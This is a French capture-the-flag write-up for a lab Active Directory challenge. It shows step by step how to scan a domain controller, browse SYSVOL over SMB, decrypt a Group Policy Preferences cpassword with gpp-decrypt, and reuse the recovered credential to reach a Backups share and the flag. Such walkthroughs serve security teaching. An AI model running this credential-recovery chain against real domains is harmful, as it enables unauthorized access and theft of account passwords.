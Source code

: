 # The GPO Mission

**Catégorie** : Active Directory/Réaliste  
**Difficulté** : Facile  
**Author**: HF47

## Description du challenge

L'entreprise CTFCORP utilise encore des Group Policy Preferences (GPP) pour déployer des configurations. Ces GPP sont connues pour stocker des mots de passe de manière non sécurisée. Le challenge consiste à explorer les GPO pour trouver des informations sensibles.

## Solution

### 1. NMAP

Commençons par scanner le réseau pour identifier les services disponibles :

```bash
hf47@kali> nmap -sV -p- 192.168.56.0/24                                                                                                
Nmap scan report for 192.168.56.4
Host is up (0.00091s latency).
Not shown: 65517 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Microsoft Windows Server 2016 Essentials microsoft-ds
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.31 seconds
```

Nous pouvons identifier un contrôleur de domaine Active Directory avec plusieurs services actifs, notamment:
- SMB (ports 139/445) pour partage de fichiers
- LDAP (port 389) pour l'annuaire Active Directory

### 2. Accès au partage SYSVOL

Les GPO sont stockées dans le partage SYSVOL, accessible via SMB. Connectons-nous:

```bash
hf47@kali> smbclient //192.168.56.4/SYSVOL -U "Player1%test"
Domain=[CTFCORP] OS=[Windows Server 2016 Essentials 14393] Server=[Windows Server 2016 Essentials 6.3]
smb: \> ls
  .                                   D        0  Thu May 23 10:15:21 2024
  ..                                  D        0  Thu May 23 10:15:21 2024
  ctfcorp.local                       D        0  Thu May 23 10:15:21 2024

smb: \> cd ctfcorp.local
smb: \ctfcorp.local\> ls
  .                                   D        0  Thu May 23 10:15:21 2024
  ..                                  D        0  Thu May 23 10:15:21 2024
  Policies                            D        0  Thu May 23 10:15:21 2024
  scripts                             D        0  Thu May 23 10:15:21 2024

smb: \ctfcorp.local\> cd Policies
smb: \ctfcorp.local\Policies\> ls
  .                                   D        0  Thu May 23 10:15:21 2024
  ..                                  D        0  Thu May 23 10:15:21 2024
  {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Thu May 23 10:15:21 2024
  {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Thu May 23 10:15:21 2024
  {XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}      D        0  Thu May 23 10:15:21 2024
  {YYYYYYYY-YYYY-YYYY-YYYY-YYYYYYYYYYYY}      D        0  Thu May 23 10:15:21 2024
  {ZZZZZZZZ-ZZZZ-ZZZZ-ZZZZ-ZZZZZZZZZZZZ}      D        0  Thu May 23 10:15:21 2024
```

Alternativement, nous pouvons monter le partage:

```bash
hf47@kali> mkdir /tmp/sysvol
hf47@kali> mount -t cifs //192.168.56.4/SYSVOL /tmp/sysvol -o username=Player1,password=test
```

### 3. Recherche des fichiers GPP

Les fichiers de configuration GPP sont stockés en XML. Cherchons-les:

```bash
hf47@kali> find /tmp/sysvol -name "*.xml"
/tmp/sysvol/ctfcorp.local/Policies/{XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}/Machine/Preferences/ScheduledTasks/ScheduledTasks.xml
/tmp/sysvol/ctfcorp.local/Policies/{YYYYYYYY-YYYY-YYYY-YYYY-YYYYYYYYYYYY}/User/Preferences/Drives/Drives.xml
/tmp/sysvol/ctfcorp.local/Policies/{ZZZZZZZZ-ZZZZ-ZZZZ-ZZZZ-ZZZZZZZZZZZZ}/Machine/Preferences/Groups/Groups.xml
```

### 4. Analyse des GPP - Étape 1

Examinons le fichier des tâches planifiées:

```bash
hf47@kali> cat /tmp/sysvol/ctfcorp.local/Policies/{XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX}/Machine/Preferences/ScheduledTasks/ScheduledTasks.xml
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
    <Task clsid="{2DEECB1C-261F-4e8e-9F32-8982E0F1C595}">
        <Properties action="C" name="SystemCheck" appName="powershell.exe" args="-NonInteractive -WindowStyle Hidden -Command &quot;Get-Service&quot;" startIn="" comment="Vérification système" />
        <Triggers>
            <Trigger type="DAILY" startHour="3" startMinutes="0" />
        </Triggers>
        <Principal id="Author">
            <UserId>CTFCORP\maintenance_svc</UserId>
            <LogonType>Password</LogonType>
            <RunLevel>HighestAvailable</RunLevel>
        </Principal>
    </Task>
</ScheduledTasks>
```

Ce fichier révèle l'existence du compte `maintenance_svc` mais ne contient pas de mot de passe.

### 5. Analyse des GPP - Étape 2

Examinons le fichier des mappages de lecteurs:

```bash
hf47@kali> cat /tmp/sysvol/ctfcorp.local/Policies/{YYYYYYYY-YYYY-YYYY-YYYY-YYYYYYYYYYYY}/User/Preferences/Drives/Drives.xml
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<Drives clsid="{8FDDCC1A-0C3C-43cd-A6B4-71A6DF20DA8C}">
    <Drive clsid="{935D1B74-9CB8-4e3c-9914-7DD559B7A417}" name="Z:" status="Z:" image="0" changed="2024-01-15 08:30:21" uid="{12345678-90AB-CDEF-1234-567890ABCDEF}">
        <Properties action="U" thisDrive="SHOW" allDrives="SHOW" userName="CTFCORP\backup_reader" password="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" path="\\DC1\Backups" label="Backups" persistent="0" useLetter="1" letter="Z"/>
    </Drive>
</Drives>
```

Nous avons trouvé un mot de passe chiffré! Utilisons `gpp-decrypt` pour le déchiffrer:

```bash
hf47@kali> gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

Nous obtenons le mot de passe: `GPPstillStandingStrong2k18`

### 6. Analyse des GPP - Étape 3

Examinons le fichier des groupes:

```bash
hf47@kali> cat /tmp/sysvol/ctfcorp.local/Policies/{ZZZZZZZZ-ZZZZ-ZZZZ-ZZZZ-ZZZZZZZZZZZZ}/Machine/Preferences/Groups/Groups.xml
```

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Backup Operators" image="2" changed="2024-01-15 10:15:00" uid="{12345678-1234-5678-1234-567890ABCDEF}">
        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-551">
            <Members>
                <Member name="CTFCORP\hidden_admin" action="ADD" sid=""/>
                <Member name="CTFCORP\backup_service" action="ADD" sid=""/>
            </Members>
        </Properties>
    </Group>
</Groups>
```

Nous découvrons deux comptes supplémentaires: `hidden_admin` et `backup_service`.

### 7. Accès au partage Backups

Avec les informations obtenues, nous pouvons maintenant utiliser les credentials `backup_reader` pour accéder au partage `Backups`:

```bash
hf47@kali> smbclient //192.168.56.4/Backups -U "CTFCORP\backup_reader%GPPstillStandingStrong2k18"
Domain=[CTFCORP] OS=[Windows Server 2016 Essentials 14393] Server=[Windows Server 2016 Essentials 6.3]
smb: \> ls
  .                                   D        0  Thu May 23 10:15:21 2024
  ..                                  D        0  Thu May 23 10:15:21 2024
  system_backup.txt                   A       55  Thu May 23 10:15:21 2024

smb: \> get system_backup.txt
getting file \system_backup.txt of size 55 as system_backup.txt (2.8 KiloBytes/sec) (average 2.8 KiloBytes/sec)
smb: \> exit
```

Vérifions le contenu du fichier:

```bash
hf47@kali> cat system_backup.txt
404CTF{GPP_Pr3f3r3nc3s_4r3_D4ng3r0us!}
```

### 8. Flag

Le flag est: `404CTF{GPP_Pr3f3r3nc3s_4r3_D4ng3r0us!}`
